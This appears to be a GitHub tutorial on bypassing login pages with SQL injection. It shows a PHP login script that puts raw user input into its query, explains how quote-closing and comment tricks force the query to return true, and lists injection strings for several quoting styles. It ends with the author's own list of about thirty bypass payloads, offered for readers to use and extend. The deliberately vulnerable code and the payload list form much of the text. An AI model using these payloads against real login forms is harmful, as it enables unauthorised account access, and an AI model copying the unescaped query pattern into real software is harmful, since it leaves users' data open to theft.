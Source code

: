 # Login Bypass Using SQL Injection

First let us see an example of piece of code that actually creates the Login Page vulnerable to this attack.

Example:
```
$uname=$_POST['uname'];
$passwrd=$_POST['passwrd'];
$query="select username,pass from users where username='$uname' and password='$passwrd' limit 0,1";
$result=mysql_query($query);
$rows = mysql_fetch_array($result);
if($rows)
{
echo "You have Logged in successfully" ;
create_session();
}
else
{
Echo "Better Luck Next time";
}
```
What we can see above is a PHP code which takes the user Input put the into the SQL Query and then check if any row is returned it allow you to get Log in.

Now as we can see the query is quoting the input with single quote, that means we have to use a single quote to close the first quote and then inject.
So lets Inject ' or ''=' into the Query:

Logging in with following details:
Username : ' or ''='
Password : ' or ''='

```
select username,pass from users where username='' or ''='' and password='' or ''='' limit 0,1;
```

so what i actually did is made the query to return true using the or. We can even try and comment out the query using any comment operator like using the following username and password.

Username : ' or 1--
Password :
what we did is we left the password field empty and commented out the rest of the query. so lets try and check the Query part.

```
select username,pass from users where username='' or true--' and password='' or ''='' limit 0,1;
```

Here anything after -- wont be executed which makes the query to be:

```
select username,pass from users where username='' or true;
```

and it will return all the rows. and we can bypass the Login. This was the basic okay let us assume now different queries and different injection for them.

Query:
```
select username,pass from users where username=('$username') and password=('$passwrd') limit 0,1;
```
Injections:
') or true--
') or ('')=('
') or 1--
') or ('x')=('

Query:
```
select username,pass from users where username="$username" and password="$passwrd" limit 0,1;
```
Injections:
" or true--
" or ""="
" or 1--
" or "x"="

Query:
```
select username,pass from users where username=("$username") and password=("$passwrd") limit 0,1;
```
Injections:
") or true--
") or ("")=("
") or 1--
") or ("x")=("

Query:
```
select username,pass from users where username=(('$username')) and password=(('$passwrd')) limit 0,1;
```
Injections:
')) or true--
')) or ((''))=(('
')) or 1--
')) or (('x'))=(('

Well that was kind of enough for the Explaination now time to finish so i will give you my own bypass list which i made.

```
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```
The list was getting long so i had to remove payloads with different comments...you can now make them yourself. just add different Comments types with all these payloads.